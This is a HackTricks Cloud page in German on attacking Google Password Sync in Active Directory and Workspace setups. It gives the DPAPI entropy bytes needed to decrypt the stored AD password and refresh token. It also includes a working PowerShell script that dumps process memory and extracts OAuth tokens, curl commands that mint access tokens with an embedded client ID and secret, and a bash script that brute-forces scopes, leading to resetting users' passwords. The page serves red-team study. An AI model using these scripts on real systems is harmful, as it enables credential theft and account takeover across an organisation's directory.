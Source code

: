 # GPS - Google Password Sync

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Grundinformationen

Dies ist die Binärdatei und der Dienst, den Google anbietet, um die **Passwörter der Benutzer zwischen dem AD** und Workspace **synchronisiert zu halten**. Jedes Mal, wenn ein Benutzer sein Passwort im AD ändert, wird es in Google gesetzt.

Es wird in `C:\Program Files\Google\Password Sync` installiert, wo Sie die Binärdatei `PasswordSync.exe` zur Konfiguration und `password_sync_service.exe` (der Dienst, der weiterhin läuft) finden können.

### GPS - Konfiguration

Um diese Binärdatei (und den Dienst) zu konfigurieren, ist es notwendig, **Zugriff auf ein Super Admin-Konto in Workspace** zu gewähren:

* Anmeldung über **OAuth** mit Google, danach wird **ein Token im Registrierungseditor (verschlüsselt) gespeichert**
* Nur verfügbar auf Domänencontrollern mit GUI
* Bereitstellung von **Service Account-Anmeldeinformationen von GCP** (json-Datei) mit Berechtigungen zur **Verwaltung der Workspace-Benutzer**
* Sehr schlechte Idee, da diese Anmeldeinformationen niemals ablaufen und missbraucht werden könnten
* Sehr schlechte Idee, einem SA Zugriff auf Workspace zu gewähren, da der SA in GCP kompromittiert werden könnte und es möglich wäre, zu Workspace zu pivotieren
* Google verlangt dies für domänenkontrollierte Umgebungen ohne GUI
* Diese Anmeldeinformationen werden ebenfalls im Registrierungseditor gespeichert

Bezüglich AD ist es möglich, anzugeben, dass der aktuelle **Anwendungskontext, anonym oder einige spezifische Anmeldeinformationen** verwendet werden sollen. Wenn die Option Anmeldeinformationen ausgewählt ist, wird der **Benutzername** in einer Datei auf der **Festplatte** gespeichert und das **Passwort** ist **verschlüsselt** und im **Registrierungseditor** gespeichert.

### GPS - Dumping Passwort und Token von der Festplatte

{% hint style="success" %}
Beachten Sie, dass [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) in der Lage ist, **GPS** zu erkennen, Informationen über die Konfiguration zu erhalten und **sogar das Passwort und Token zu entschlüsseln**.
{% endhint %}

In der Datei **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** ist es möglich, Teile der Konfiguration wie den **`baseDN`** des konfigurierten AD und den **`Benutzernamen`**, dessen Anmeldeinformationen verwendet werden, zu finden.

Im Registrierungseditor **`HKLM\Software\Google\Google Apps Password Sync`** ist es möglich, den **verschlüsselten Refresh-Token** und das **verschlüsselte Passwort** für den AD-Benutzer (sofern vorhanden) zu finden. Darüber hinaus, wenn anstelle eines Tokens einige **SA-Anmeldeinformationen** verwendet werden, ist es auch möglich, diese verschlüsselt an dieser Registrierungsadresse zu finden. Die **Werte** in dieser Registrierung sind nur für **Administratoren** **zugänglich**.

Das verschlüsselte **Passwort** (sofern vorhanden) befindet sich im Schlüssel **`ADPassword`** und ist mit der **`CryptProtectData`** API verschlüsselt. Um es zu entschlüsseln, müssen Sie der gleiche Benutzer sein wie der, der die Passwortsynchronisierung konfiguriert hat, und diese **Entropie** verwenden, wenn Sie die **`CryptUnprotectData`** verwenden: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Der verschlüsselte Token (sofern vorhanden) befindet sich im Schlüssel **`AuthToken`** und ist mit der **`CryptProtectData`** API verschlüsselt. Um ihn zu entschlüsseln, müssen Sie der gleiche Benutzer sein wie der, der die Passwortsynchronisierung konfiguriert hat, und diese **Entropie** verwenden, wenn Sie die **`CryptUnprotectData`** verwenden: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Darüber hinaus ist es auch mit base32hex unter Verwendung des Wörterbuchs **`0123456789abcdefghijklmnopqrstv`** codiert.

Die Entropiewerte wurden mit dem Tool gefunden. Es wurde konfiguriert, um die Aufrufe von **`CryptUnprotectData`** und **`CryptProtectData`** zu überwachen, und dann wurde das Tool verwendet, um `PasswordSync.exe` zu starten und zu überwachen, das das konfigurierte Passwort und den Auth-Token zu Beginn entschlüsseln wird, und das Tool wird **die Werte für die verwendete Entropie** in beiden Fällen **anzeigen**:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Beachten Sie, dass es auch möglich ist, die **entschlüsselten** Werte in den Eingaben oder Ausgaben der Aufrufe dieser APIs zu sehen (für den Fall, dass Winpeas irgendwann nicht mehr funktioniert).

Falls die Passwortsynchronisierung **mit SA-Anmeldeinformationen konfiguriert wurde**, wird sie ebenfalls in Schlüsseln im Registrierungseditor **`HKLM\Software\Google\Google Apps Password Sync`** gespeichert.

### GPS - Dumping Tokens aus dem Speicher

Genau wie bei GCPW ist es möglich, den Speicher des Prozesses von `PasswordSync.exe` und den Prozessen `password_sync_service.exe` zu dumpen, und Sie werden in der Lage sein, Refresh- und Access-Tokens zu finden (sofern sie bereits generiert wurden).\
Ich nehme an, Sie könnten auch die konfigurierten AD-Anmeldeinformationen finden.

<details>

<summary>Dump <code>PasswordSync.exe</code> und die <code>password_sync_service.exe</code> Prozesse und suchen Sie nach Tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Zugriffstoken aus Aktualisierungstoken generieren

Mit dem Aktualisierungstoken ist es möglich, Zugriffstoken zu generieren, indem es zusammen mit der Client-ID und dem Client-Geheimnis verwendet wird, die im folgenden Befehl angegeben sind:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Beachten Sie, dass es selbst mit einem Refresh-Token nicht möglich ist, einen beliebigen Scope für das Access-Token anzufordern, da Sie nur die **Scopes anfordern können, die von der Anwendung unterstützt werden, in der Sie das Access-Token generieren**.

Außerdem ist das Refresh-Token nicht in jeder Anwendung gültig.
{% endhint %}

Standardmäßig hat GPS nicht als Benutzer Zugriff auf jeden möglichen OAuth-Scope. Mit dem folgenden Skript können wir die Scopes finden, die mit dem `refresh_token` verwendet werden können, um ein `access_token` zu generieren:

<details>

<summary>Bash-Skript zum Brute-Forcen von Scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Und dies ist die Ausgabe, die ich zum Zeitpunkt des Schreibens erhalten habe:
```
https://www.googleapis.com/auth/admin.directory.user
```
Welche dasselbe ist, was Sie erhalten, wenn Sie keinen Geltungsbereich angeben.

{% hint style="danger" %}
Mit diesem Geltungsbereich könnten Sie **das Passwort eines bestehenden Benutzers ändern, um Berechtigungen zu eskalieren**.
{% endhint %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
